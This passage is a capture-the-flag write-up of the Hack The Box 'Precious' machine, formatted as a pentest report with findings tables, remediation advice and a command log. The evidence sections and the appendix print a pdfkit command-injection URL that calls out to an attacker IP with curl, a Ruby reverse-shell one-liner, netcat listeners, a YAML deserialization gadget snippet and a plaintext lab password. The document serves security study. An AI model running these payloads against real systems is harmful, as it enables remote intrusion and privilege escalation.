

Confirmed root access and captured the final flag:

```
id
cat /root/root.txt
```



**root.txt:** `78271404cf8054b61e4b3534bc0ff736`

---

## Technical Findings Details

### 1. Unauthenticated Command Injection via Vulnerable pdfkit Library — Critical

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-77: Improper Neutralization of Special Elements used in a Command |
| **CVSS 3.1 Score** | 9.8 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` *(NVD-assigned score for CVE-2022-25765)* |
| **Description (Incl. Root Cause)** | The web application uses the pdfkit Ruby gem (version 0.8.6) to convert user-submitted URLs into PDF documents. This version of pdfkit fails to sanitize shell metacharacters (e.g., backticks) in the URL before passing it to the underlying `wkhtmltopdf` shell command, allowing an unauthenticated attacker to inject and execute arbitrary OS commands. The root cause is use of an outdated, unpatched third-party library with a publicly known vulnerability. |
| **Security Impact** | An unauthenticated attacker can achieve arbitrary remote code execution on the underlying server simply by submitting a crafted URL to the PDF conversion feature — no authentication or user interaction required. This was used to obtain an initial foothold as the `ruby` user. |
| **Affected Host(s)** | `precious.htb:80` (PDF conversion endpoint) |
| **Remediation** | - Upgrade pdfkit to version 0.8.7.2 or later, which contains the effective patch for this vulnerability<br>- Establish a patch/dependency management process to keep third-party Ruby gems current<br>- Validate and strictly allow-list submitted URLs (scheme, host, character set) before passing them to any library that shells out<br>- Run the PDF generation process in a sandboxed or least-privilege context to limit blast radius |
| **References** | [NVD: CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765) · [GitHub Advisory: GHSA-rhwx-hjx2-x4qr](https://github.com/advisories/GHSA-rhwx-hjx2-x4qr) · [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) |

**Evidence:**
```
http://test.local/%20`curl http://10.10.14.196:8080/test`
→ Callback received: GET /test
```

---

### 2. Cleartext Storage of Credentials in Gem Bundler Configuration — Medium

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-312: Cleartext Storage of Sensitive Information |
| **CVSS 3.1 Score** | 6.5 (Medium) — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N` *(assessed — requires existing local access to read the file)* |
| **Description (Incl. Root Cause)** | The `ruby` user's `.bundle/config` file stored plaintext SSH credentials for a different system user (`henry`) as a Bundler RubyGems source credential. Storing credentials in cleartext within a configuration file readable by the local user account allows any attacker who compromises that account to trivially harvest credentials for other accounts. |
| **Security Impact** | An attacker with a low-privileged foothold (via Finding 1) was able to read this file and recover valid SSH credentials for a second, distinct user account, enabling lateral movement and providing the actual user-flag-bearing foothold. |
| **Affected Host(s)** | `precious.htb` — `/home/ruby/.bundle/config` |
| **Remediation** | - Never store plaintext credentials in Bundler/Gem configuration files; use environment variables, a secrets manager, or credential-scoped tokens instead<br>- Restrict file permissions on configuration files containing any sensitive data to the owning user only<br>- Rotate the exposed credential and audit for reuse elsewhere<br>- Periodically scan the filesystem for cleartext secrets as part of routine hardening |
| **References** | [OWASP: Cleartext Storage of Sensitive Information](https://owasp.org/www-community/vulnerabilities/Insecure_Storage) · [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) · [MITRE ATT&CK: T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/) |

**Evidence:**
```
cat .bundle/config
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

---

### 3. Insecure Deserialization in Privileged Ruby Script — Critical

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-502: Deserialization of Untrusted Data |
| **CVSS 3.1 Score** | 9.9 (Critical) — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` *(assessed — local privilege escalation crossing a security boundary via sudo)* |
| **Description (Incl. Root Cause)** | A sudo rule allowed the user `henry` to run `/opt/update_dependencies.rb` as root with no password. This script loads a YAML file using `YAML.load(File.read("dependencies.yml"))` — a call known to be unsafe on untrusted input, since it can instantiate arbitrary Ruby objects rather than plain data structures. Compounding this, the filename is referenced with a relative (non-absolute) path, meaning the script loads whatever `dependencies.yml` exists in the attacker-controlled current working directory. By crafting a YAML payload using chained Ruby Gem/Net objects (a known public gadget chain), arbitrary OS commands were executed with root privileges. |
| **Security Impact** | Any user granted sudo access to run this script — even one with otherwise minimal privileges — can escalate to full root access on the host by placing a malicious `dependencies.yml` file in the working directory before invoking the sudo command. This was used to obtain a root shell and capture `root.txt`. |
| **Affected Host(s)** | `precious.htb` — `/opt/update_dependencies.rb` (executed via `sudo` as `henry`) |
| **Remediation** | - Replace `YAML.load` with `YAML.safe_load`, which restricts deserialization to plain data types (strings, arrays, hashes) and rejects arbitrary object instantiation<br>- Reference `dependencies.yml` using a fully qualified, non-writable path (e.g., `/opt/dependencies.yml`) rather than a relative path<br>- Avoid granting broad `sudo` execution rights to scripts that process any form of user-influenced or file-based input<br>- Apply least-privilege review to all `sudoers` entries, especially `NOPASSWD` rules |
| **References** | [Ruby Docs: Psych/YAML Security Notes](https://ruby-doc.org/stdlib-2.5.1/libdoc/yaml/rdoc/YAML.html) · [PayloadsAllTheThings: Ruby Insecure Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) · [MITRE ATT&CK: T1068 — Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/) |

**Evidence:**
```yaml
git_set: !ruby/module 'Kernel'
method_id: :system
git_set: id
```
```
sudo /usr/bin/ruby /opt/update_dependencies.rb
→ uid=0(root) gid=0(root) groups=0(root)
```

---

## Remediation Summary

### Short Term

- **Finding #1 (pdfkit Command Injection)** – Upgrade the pdfkit gem to version 0.8.7.2 or later immediately; this is a vendor-supplied patch requiring minimal effort.
- **Finding #2 (Cleartext Credentials)** – Remove the plaintext credential from `.bundle/config` and rotate `henry`'s password immediately.
- **Finding #3 (Insecure Deserialization)** – Change `YAML.load` to `YAML.safe_load` in `update_dependencies.rb` as an immediate, low-effort code fix.

### Medium Term

- **Finding #2 (Cleartext Credentials)** – Migrate Bundler/Gem credentials to environment variables or a secrets manager, and audit other configuration files for similar cleartext secrets.
- **Finding #3 (Insecure Deserialization)** – Update the script to reference `dependencies.yml` via a fully qualified path, and review the `sudoers` file for other overly permissive `NOPASSWD` entries.

### Long Term

- Establish a patch and dependency management process for all third-party gems and libraries to close the exposure window for known CVEs.
- Implement a periodic vulnerability assessment and penetration testing cadence to catch configuration drift such as risky sudo rules or unsafe deserialization patterns in internal tooling.
- Introduce secure coding guidelines and code review requirements specifically covering deserialization of any user- or file-influenced data (YAML, JSON, Marshal, Pickle equivalents) across all languages in use.
- Deploy automated secret-scanning across the codebase and filesystem to catch cleartext credentials before they reach production.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1:**
Identified and exploited a known command injection vulnerability (CVE-2022-25765) in an outdated Ruby gem by analyzing PDF metadata to fingerprint the vulnerable library version, achieving unauthenticated remote code execution.

**Skill/Technique 2:**
Discovered and reused plaintext credentials found in a Ruby Gem/Bundler configuration file to pivot laterally to a second, higher-value user account.

**Skill/Technique 3:**
Identified and exploited an insecure deserialization vulnerability in a custom privileged Ruby script by crafting a Gem/Net object gadget chain, escalating from a low-privileged sudo rule to a full root shell.

---

## Appendix

### A. Finding Severity Definitions

| Rating | Definition |
| ------ | ---------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High** | Exploitation causes substantial harm to confidentiality, integrity, or availability. |
| **Medium** | Exploitation has a moderate impact, or a high-impact issue with limited exposure. |
| **Low** | Exploitation causes minimal impact to operations. |
| **Info** | An observation or improvement opportunity; not itself a vulnerability. |

### B. Exploited Hosts

| Host | Method | Notes |
| ---- | ------ | ----- |
| `precious.htb:80` | Command Injection (CVE-2022-25765) | Initial access — foothold as `ruby` |
| `precious.htb:22` | SSH (discovered credentials) | Lateral movement — user.txt captured |
| `precious.htb` (local) | Insecure Deserialization via sudo | Privilege escalation — root.txt captured |

### C. Compromised Users / Credentials

| Username | Method | Notes |
| -------- | ------ | ----- |
| `ruby` | Command injection RCE | Initial foothold, no prior credentials required |
| `henry` | Cleartext credentials in `.bundle/config` | Password: `Q3c1AqGHtoI0aXAYFH` (redact if sharing publicly) |
| `root` | Insecure deserialization via sudo rule | Escalated via crafted `dependencies.yml` gadget chain |

### D. Command Reference Log

```
nmap 10.129.228.98 -sC -sV
echo '10.129.228.98 precious.htb' | sudo tee -a /etc/hosts
python3 -m http.server 8080
exiftool 3u2ioa39vrzwigp2p5j37q79yuxtsz0m.pdf
http://test.local/%20`curl http://10.10.14.196:8080/test`
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.196",8080))'
nc -lvnp 8080
python3 -c 'import pty;pty.spawn("/bin/bash")'
cd
ls -la
cd .bundle
cat config
ssh henry@10.129.228.98
ls
cat user.txt
sudo -l
cat /opt/update_dependencies.rb
sudo /usr/bin/ruby /opt/update_dependencies.rb
ruby -v
touch /tmp/dependencies.yml
cd /tmp
sudo /usr/bin/ruby /opt/update_dependencies.rb
nc -lvnp 8080
id
cat /root/root.txt
```

### E. References

- [NVD: CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)
- [GitHub Advisory: GHSA-rhwx-hjx2-x4qr — PDFKit vulnerable to Command Injection](https://github.com/advisories/GHSA-rhwx-hjx2-x4qr)
- [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK: T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)
- [MITRE ATT&CK: T1068 — Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)
- [PayloadsAllTheThings: Ruby Insecure Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)
- [Official Hack The Box Precious Machine Page](https://app.hackthebox.com/machines/Precious)

> **Note on the official writeup PDF:** The attached official HTB writeup (D22.100.213, prepared by C4rm3l0) is licensed HTB content and has not been reproduced here. It is referenced above via the permanent HTB machine page rather than the uploaded file, since redistributing the official document's text would not be appropriate for a public portfolio repo.
